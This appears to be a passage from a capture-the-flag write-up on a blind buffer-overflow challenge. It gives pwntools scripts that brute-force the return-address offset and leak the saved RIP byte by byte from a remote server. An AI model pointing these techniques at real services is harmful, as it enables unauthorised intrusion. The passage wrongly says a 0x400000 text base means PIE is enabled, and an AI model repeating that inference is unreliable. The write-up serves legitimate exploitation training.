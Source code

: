 ## Get RIP Offset
---
At first I thought there could be a `stack canary` but to brute force that canary the server would have to fork or make threads so that the canary remains same between connections. So since there is no canary I started bruteforcing the `offset` at which the RIP is stored from our input using the function below.

```py
import pwn
# Global Variables
libc = pwn.ELF("libc-2.23.so")
HOST = "34.159.129.6"
PORT = 30550

def GetRipOffset():
    offset = 1
    while True:
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*offset
        io.recvuntil(b"?\n")
        io.send(payload)
        mssg = io.recvall()
        if b'No password' not in mssg:
            break
        offset += 1
    return offset-1
```
We get the offset as 88 so we make that as a global variable to help us in the future.
```py
OFFSET = 88
```

## Bruteforcing the RIP
---
Since we got the offset we can bruteforce the RIP by bruteforcing the offset from the input. The way we bruteforce it is we bruteforce the bytes at which the return message is printed

```py
def BruteRip():
    rip = b''
    for i in range(0, 8):
        for j in range(0, 256):
            io = pwn.remote(HOST, PORT, level='critical')
            payload = b'A'*OFFSET + rip + pwn.p8(j)
            io.send(payload)
            mssg = io.recv()
            if b'No password' in mssg:
                rip += pwn.p8(j)
                pwn.log.success("RIP: " + hex(pwn.unpack(rip, 'all')))
                io.close()
                break
            io.close()
    return rip
```
With this script we get -
```py
RIP = 0x40070a
```
Keep in mind that this may not be the exact address of the function that prints the message `No password for you` but it is close to it.  
From the `RIP` we can also infer that it is `x64` executable with `PIE` enabled as its `text` section is mapped at address starting from `0x400000`. We add 2 more global variables -
```py
BINARY_BASE = 0x400000
```